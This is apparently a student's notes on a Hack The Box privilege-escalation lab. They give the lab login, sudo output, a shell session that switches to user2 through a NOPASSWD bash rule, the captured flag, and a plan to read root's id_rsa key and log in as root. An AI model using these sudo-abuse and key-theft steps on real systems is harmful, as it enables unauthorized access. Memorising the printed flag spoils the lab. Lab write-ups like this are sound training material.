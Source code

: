 ## SSH to 83.136.249.33 with user "user1" and password "password1"

1. SSH into the server above with the provided credentials, and use the '-p xxxxxx' to specify the port shown above. Once you login, try to find a way to move to 'user2', to get the flag in '/home/user2/flag.txt'.
2. Once you gain access to 'user2', try to find a way to escalate your privileges to root, to get the flag in '/root/flag.txt'. 

## Notes

```
User user1 may run the following commands on ng-1423594-gettingstartedprivesc-g7cea-5bb59f9ff7-drh8x:
    (user2 : user2) NOPASSWD: /bin/bash

```
This may be useful later for priv exec
```
User user1 may run the following commands on ng-1423594-gettingstartedprivesc-g7cea-5bb59f9ff7-drh8x:
    (user2 : user2) NOPASSWD: /bin/bash
user1@ng-1423594-gettingstartedprivesc-g7cea-5bb59f9ff7-drh8x:/$ sudo -u user2 /bin/bash
user2@ng-1423594-gettingstartedprivesc-g7cea-5bb59f9ff7-drh8x:/$ dir
bin  boot  dev  etc  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
user2@ng-1423594-gettingstartedprivesc-g7cea-5bb59f9ff7-drh8x:/$ dir home
user1  user2
user2@ng-1423594-gettingstartedprivesc-g7cea-5bb59f9ff7-drh8x:/$ cd /home/user2
user2@ng-1423594-gettingstartedprivesc-g7cea-5bb59f9ff7-drh8x:~$ dir
flag.txt
user2@ng-1423594-gettingstartedprivesc-g7cea-5bb59f9ff7-drh8x:~$ cat flag.txt
HTB{l473r4l_m0v3m3n7_70_4n07h3r_u53r}

```
Was able to `sudo -u user2 /bin/bash` which weirdly moved me over to user2, I then navigated to their home directory and read the first flag.
[Exploit for NOPASSWD /bin/bash ](https://medium.com/schkn/linux-privilege-escalation-using-text-editors-and-files-part-1-a8373396708d) 

This is interesting
![[Pasted image 20240813222731.png]]
Doesn't appear the cron jobs are useful to me
Nothing in history

![[Pasted image 20240813231059.png]]
I was able to use `find / -name authorized_keys`

We can read the id_rsa so we can copy the key and login as root from our machine

![[Pasted image 20240813231206.png]]
